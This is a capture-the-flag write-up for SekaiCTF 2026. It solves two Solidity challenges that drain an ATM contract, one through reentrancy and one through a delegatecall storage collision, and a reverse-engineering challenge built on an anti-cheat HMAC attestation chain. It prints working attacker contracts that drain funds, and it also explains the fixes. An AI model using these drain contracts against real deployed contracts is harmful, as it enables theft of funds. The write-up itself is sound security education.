



:::caution
Spoilers ahead. This post includes solution details, payloads, and flags.
:::

SekaiCTF 2026 gave me two very different kinds of pain. One was a pair of smart contracts that both said "I fixed the bug" and both still leaked all their money. The other was an anime quiz game that was not really a quiz at all — it was an anti-cheat handshake hiding across a game, a DLL, and a kernel driver.

This post covers two solves: the `[Blockchain] PP Farming` series (two levels) and `[Rev] Chibile`. The blockchain one is a nice reminder that "I added a lock" is not the same as "I fixed the bug." The rev one is a long chain where every step depends on the one before it, and the winning move was to stop fighting the game's crypto and just let the game do it for me.

---

## [Blockchain] PP Farming

> The author's exact words: *"I found a new way to PP farm, surely nothing could go wrong!"*

This is a two-part challenge. Both parts give you an ATM contract that holds 10 ETH. The goal is the same both times: empty it. The contract has an `isSolved()` function that returns `true` when its balance is `0`.

Level 1 is the classic bug. Level 2 tries to fix it and opens a bigger hole instead.

### Level 1 — the ATM pays before it writes

Here is the important part of the contract:

```solidity
function withdrawPP() public {
    uint256 score = scores[msg.sender];
    require(score > 0, "Nothing to withdraw");
    (bool result, ) = msg.sender.call{value: score}("");   // <-- sends first
    require(result, "Transfer failed");
    scores[msg.sender] = 0;                                 // <-- zeroes after
}
```

This is a **reentrancy** bug, and it is as textbook as they come. The contract sends the ETH *before* it sets your score to `0`. That order is the whole problem.

When the ATM sends me ETH with `call`, my contract's `receive()` function runs. And at that exact moment my score is still there — the `scores[msg.sender] = 0` line has not run yet. So from inside `receive()` I just call `withdrawPP()` again. Same score, same payout. I keep doing that until the ATM is empty.

My attacker contract does four things:

1. In the constructor, donate 1 ETH to myself so I have a score.
2. Call `withdrawPP()` once.
3. In `receive()`, if the ATM still has money, call `withdrawPP()` again.
4. When it's all done, forward everything to my wallet.

```solidity
contract Attack {
    IATM atm;
    address player;

    constructor(address _atm) payable {
        atm = IATM(_atm);
        player = msg.sender;
        atm.donatePP{value: 1 ether}(address(this));
    }

    function attack() external {
        atm.withdrawPP();
        (bool ok, ) = player.call{value: address(this).balance}("");
        require(ok);
    }

    receive() external payable {
        if (address(atm).balance >= 1 ether) atm.withdrawPP();
    }
}
```

Here is the loop as a picture. The score never gets zeroed until the very end, so every re-entry sees the same money:



The loop runs 10 times, the ATM hits `0`, and `isSolved()` is `true`.

The fix is easy and famous: set the state *before* the external call. This ordering has a name — Checks, Effects, Interactions. Zero the score first, then send the money.

```text
SEKAI{3Z_re3ntr4ncy_atTack5}
```

### Level 2 — the "fixed" ATM

Level 2 saw the reentrancy and added two defenses:

1. A `noReentrancy` lock, so you cannot re-enter `withdrawPP()`.
2. A `delegatecall` to a separate helper contract that does the actual money transfer.

It looks safer. It is not. The two new pieces work together to make a bigger hole.

First, the storage layout. This is the key to everything:

```text
        ATM storage                       Helper storage
        -----------                       --------------
slot 0   scores (mapping)         <->      id_number
slot 1   performancePointHelper   <->      atm        <-- same slot
slot 2   locked                   <->      helping
```

`delegatecall` runs the helper's *code* but on the ATM's *storage*. So when the helper writes to "its own slot 1" (`atm`), it is really writing to the ATM's slot 1 (`performancePointHelper`). Same slot. This is a **storage collision**.

Now the second problem. The helper has this setter, with no access control at all:

```solidity
function setATM(address _atm) public { atm = _atm; }   // writes slot 1
```

And the ATM's `fallback` forwards almost any unknown function to the helper by `delegatecall`. It blocks only one function name (`processWithdrawal`). It does **not** block `setATM`.

Put those two facts together and the attack writes itself. I call `atm.setATM(myEvilHelper)`. The ATM's fallback forwards it to the helper by `delegatecall`. The helper runs `atm = myEvilHelper`, but on the ATM's storage — so it overwrites `performancePointHelper`. Now the ATM points at *my* code.

After that, `withdrawPP()` `delegatecall`s into my helper. My helper does not bother re-entering. It just sends the **whole** balance in one call:

```solidity
contract MaliciousHelper {
    // Called by delegatecall, so address(this) is the ATM.
    // That means address(this).balance is the ATM's full 10 ETH.
    function processWithdrawal(address payable recipient, uint256 amount)
        external returns (bool)
    {
        (bool ok, ) = recipient.call{value: address(this).balance}("");
        return ok;
    }
}
```

Here is the full hijack in one picture. Notice how the call goes *through* the ATM, so the write lands on the ATM's storage, not the helper's:



The `noReentrancy` lock is a **red herring**. I never re-enter anything. I drain it all in a single, clean, non-reentrant call. The lock guards the door I never use.

```text
SEKAI{pr0xie5_4r3_h4rD_2_3t4k3}
```

The real lesson: the level-1 bug was never "where does the transfer happen." It was "who controls the code that runs on my storage." A `delegatecall` proxy needs storage isolation — pin the helper with `immutable`, use EIP-1967 slots, and never let an open setter touch a slot the proxy uses for its own pointers.

### Small tooling note

There was no Foundry on the box I was using. So I compiled both attacker contracts with `py-solc-x` (solc 0.8.20) and sent raw signed transactions with `eth-account` and `web3.py`. One thing that bit me: the constructor takes the ATM address, so I had to ABI-encode it (left-padded to 32 bytes) and glue it to the end of the deployment bytecode. Forget that and the deploy silently reverts with `status 0` — no error, just failure. That cost me a few confused minutes.

---

## [Rev] Chibile

> "I just created a mini anime knowledge game... but no cheating ok 😉"

Ohhh yes, I love rev anti-cheat challenges. This feels just like a real FPS game with anti-cheat, kind of like doing cheat dev: to bypass the anti-cheat, you first have to reverse it and see what is inside. That is the whole game here.

The joke is that the quiz does not matter. The game ships three files: `chibile.exe`, a user-mode DLL `eac_nocrt.dll`, and a kernel driver `eac_shield.sys`. The real challenge is an anti-cheat handshake spread across all three. To get the flag, I had to rebuild that handshake myself — the same way a cheat dev has to understand every check before they can slip past it.

The whole thing is one long chain of HMAC-SHA256. Each output feeds the next input:

```text
text hash -> gate key -> room key -> attestation keys -> attestation
```

If I get one byte wrong anywhere, the whole chain breaks and the server just says no. So the work was slow and careful. Here is the whole path in one picture before I walk it step by step:



Let me walk the chain.

### Step 1 — the room key comes from a hash of the game

The game hashes the first *executable* section of `chibile.exe`, using its virtual size (not the raw file size — that matters). Then it derives two keys from that hash:

```python
GATE = b"CHIBILE-GATE-V1"
CPU_TEXT = b"GenuntelineI"

gate_key = HMAC_SHA256(GATE, text_hash + CPU_TEXT)
room_key = HMAC_SHA256(gate_key, b"secret-room")
```

That string `GenuntelineI` looks like a broken CPU vendor string ("GenuineIntel" scrambled). It is wrong on purpose. I kept it byte-for-byte. If I "fixed" the spelling, the HMAC would change and the chain would die.

### Step 2 — two attestations, user-mode then kernel-mode

The game makes a random 16-byte nonce. The DLL signs it (user-mode attestation), and the driver signs the DLL's result plus the same nonce (kernel-mode attestation). The idea is that you cannot fake one without the other — they are chained.

The user-mode key mixes in the room key, a hash of the DLL's own executable section, a baked-in key, and that same weird CPU string. The kernel key mixes the user-mode result with its own baked key:

```python
def attestations(nonce: bytes):
    text_hash = executable_text_hash()
    gate_key = hmac256(GATE, text_hash + CPU_TEXT)
    room_key = hmac256(gate_key, b"secret-room")

    um_key = hmac256(GATE, room_key + EAC_EXEC_HASH + UM_BK + bytes(32) + CPU_TEXT)
    um_attest = hmac256(um_key, b"UM-ATTEST" + nonce)

    km_key = hmac256(GATE, um_attest + KM_BK)
    km_attest = hmac256(km_key, b"KM-ATTEST" + nonce)
    return um_attest, km_attest, room_key
```

Here I made my first real mistake. I assumed the DLL hashed the game's `.text` section. It did not. To be sure, I wrote a small oracle: load the DLL, call its attestation function with a fixed nonce, then dump the executable section of *every* loaded module and hash each one until one matched the DLL's output. The winner was the DLL's own unpacked executable section — not the game's. The oracle was far more reliable than reading the disassembly and guessing.

### Step 3 — stop fighting the crypto, use the game's own

Every request is wrapped in a custom encrypted transport: a random AES key, a MAC key, a stream key, and a nonce, all sealed inside a 256-byte RSA-OAEP block, then the JSON XORed with an HMAC keystream and encrypted with AES-CBC.

I rebuilt this whole thing in Python. Every field matched the disassembly. The server still hung up on me. Why?

The embedded RSA public key was broken on purpose:

```text
exponent = 0x5663cd
modulus  = 2048 bits, but even
gcd(exponent, modulus) = 33
```

That is not a valid RSA key. A normal Python RSA library can *build* the object if you turn off its checks, but the ciphertext it makes is not the ciphertext the server expects. Windows BCrypt handles this weird key in its own way, and matching that by hand would have been a rabbit hole.

So I stopped trying. Instead I called the game's own transport function directly. I loaded `chibile.exe` under Wine, resolved its imports, and jumped to the transport routine at offset `0xA760`, letting the real code do the RSA and AES for me:

```c
transport_fn transport = (transport_fn)((uint8_t *)game + 0xA760);
int ok = transport(host, 1337, json, strlen(json), nonce, &output, &output_size);
```

The Python solver builds this little C helper with `winegcc` and calls it for both phases. This was the moment the whole challenge cracked open. The same attestation values that failed through my Python RSA went straight through when the game sent them.

### Step 4 — decrypt the two secrets, then send them back

Phase 1 returns two 12-character secrets, encrypted byte by byte. Both derive a key from a baked key and a random value, then build a per-byte keystream. The user secret uses an 8-bit left rotate; the kernel secret uses a right rotate plus an extra byte from the derived key:

```python
def decrypt_secret(ciphertext, lh, bk, kernel):
    derived_key = hmac256(bk, lh)
    tag = b"KM-KS" if kernel else b"UM-KS"
    out = bytearray(len(ciphertext))
    for i, value in enumerate(ciphertext):
        block, pos = divmod(i, 32)
        ks = hmac256(derived_key, tag + struct.pack("<I", block))
        if kernel:
            out[i] = ror8(value ^ derived_key[(i * 7) % 32], 3) ^ ks[pos]
        else:
            out[i] = rol8(value ^ ks[pos], 3) ^ bk[pos]
    return out.decode()
```

The secrets change every session but always decode to 12 characters. One run gave me:

```text
[+] user secret:   4LNYMKCQJDH4
[+] kernel secret: SUKSM3V9V5B4
```

I typed both back in a phase-2 request. The response started with the marker `CBF2`, and I expected the flag as text after it. Wrong again — the bytes started with `89 50 4e 47`, the PNG signature. The server sent an image, not a string. I saved it, opened it, and the flag was written diagonally across the character:


```text
SEKAI{Th4nk5_F0R_Pl4y1ng_My_Chibi_G4m3_5t4y_tun3d_for_my_n3xt_0n3}
```

### What I got wrong (so you don't have to)

- I hashed the game's `.text` for the DLL attestation. It was the DLL's own executable section. The runtime oracle fixed my guess.
- I rebuilt the entire encrypted transport in Python before realizing the malformed RSA key meant I should just call the game's BCrypt path.
- I looked for a flag string after `CBF2`. It was a full PNG. Always check the actual bytes after a marker.
- I tested with fixed nonces and hit replay protection. Fresh random nonces made the solver repeatable.

The theme of the whole solve: when a program guards itself with weird, custom crypto, sometimes the cleanest attack is to let the program run its own code for you.

---

## References

- SekaiCTF 2026 — challenge instances and files.
- PP Farming: reentrancy (Checks-Effects-Interactions), `delegatecall` storage collision, EIP-1967 proxy storage.
- Chibile: PE section hashing, HMAC-SHA256 key chains, Windows BCrypt RSA-OAEP, Wine / `winegcc` for calling native routines.
